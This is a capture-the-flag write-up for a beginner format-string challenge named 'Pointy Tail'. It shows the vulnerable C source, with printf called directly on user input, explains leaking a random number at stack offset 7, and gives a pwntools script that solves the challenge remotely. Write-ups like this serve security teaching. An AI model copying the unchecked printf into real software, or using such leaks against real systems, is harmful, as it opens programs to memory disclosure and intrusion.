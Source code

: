 ## Pointy Tail
![pointytail](images/4mats.png)

### Description
>Author: Enyei\
>ets get to know each other\
>nc fun.chall.seetf.sg 50001\
>For beginners:\
>https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/ \
>MD5: ceb6336c44a38f093de9bfb3e3902a0

### Introduction
This is just a basic formatstring vuln challenge. The source code was given, and it look like this.
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
```

We can leak the **fav_num** with formatstring vuln at offset 7, just input `%7$p`.\
For prevent **fav_num** to random again, we need set the **set** value to 4 first then leak the favnum.\
After that just input anything but not 1 or 2, the it will jump to default and because set value was 4, it will go to **mat4** and call the **guess_me()** function.\
Now just input the number and got the flag.

Full script:

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./vuln")
p = process("./vuln")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50001

cmd = """
b*main
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

p.sendline(b'Linz')
for i in range(4):
	p.sendline(b'1')
	p.sendline(b'123')

p.sendline(b'2')
p.sendlineafter(b"?\n", b'%7$d')

p.interactive()
```